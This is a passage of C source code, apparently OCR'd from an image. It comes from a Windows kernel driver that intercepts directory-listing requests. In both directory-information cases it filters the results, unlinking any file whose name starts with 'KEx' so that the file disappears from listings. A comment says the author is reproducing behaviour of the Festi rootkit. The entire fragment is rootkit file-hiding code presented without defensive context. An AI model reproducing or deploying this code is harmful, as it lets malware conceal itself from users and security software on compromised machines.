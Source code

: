 ```c
							FileInfo->FileName[1] == L'E' &&
							FileInfo->FileName[2] == L'x')
						{
							Previous->NextEntryOffset += FileInfo->NextEntryOffset;
							FileInfo = Previous;
						}
					}
					Previous = FileInfo;
					FileInfo = (PFILE_BOTH_DIR_INFORMATION)((ULONG_PTR)FileInfo + FileInfo->NextEntryOffset);
				}

			} break;

			case FileIdBothDirectoryInformation:
			{
				if (!Irp->IoStatus.Information || !Irp->UserBuffer)
				{
					break;
				}
				auto FileIdInfo = (PFILE_ID_BOTH_DIR_INFORMATION)Irp->UserBuffer;
				auto Previous = FileIdInfo;
				DbgPrint("run IRP_MJ_DIRECTORY_CONTROL AND 1 AND 3\n");
				while (FileIdInfo->NextEntryOffset)
				{
					if (FileIdInfo->FileNameLength > 3)
					{
						if (FileIdInfo->FileName[0] == L'K' &&
							FileIdInfo->FileName[1] == L'E' &&
							FileIdInfo->FileName[2] == L'x')
						{
							DbgPrint("# %.*S\n", FileIdInfo->FileNameLength / sizeof(wchar_t),
								&FileIdInfo->FileName[0]);
							Previous->NextEntryOffset += FileIdInfo->NextEntryOffset;
							FileIdInfo = Previous;
						}
					}
					Previous = FileIdInfo;
					FileIdInfo = (PFILE_ID_BOTH_DIR_INFORMATION)((ULONG_PTR)FileIdInfo + FileIdInfo->NextEntryOffset);
				}
			} break;

			default: break;
			}

			KeUnstackDetachProcess(&ApcState);
		}

	}
	/*
		don't really need to implement this, since this is aimed at
		the network device Festi creates; maybe I'll add it later as well
	*/
	if (Extension->WhichDevice == 2)
	{
		/* ... */
	}

	if (Irp->PendingReturned)
	{
		Stack->Control |= SL_PENDING_RETURNED;
	}
```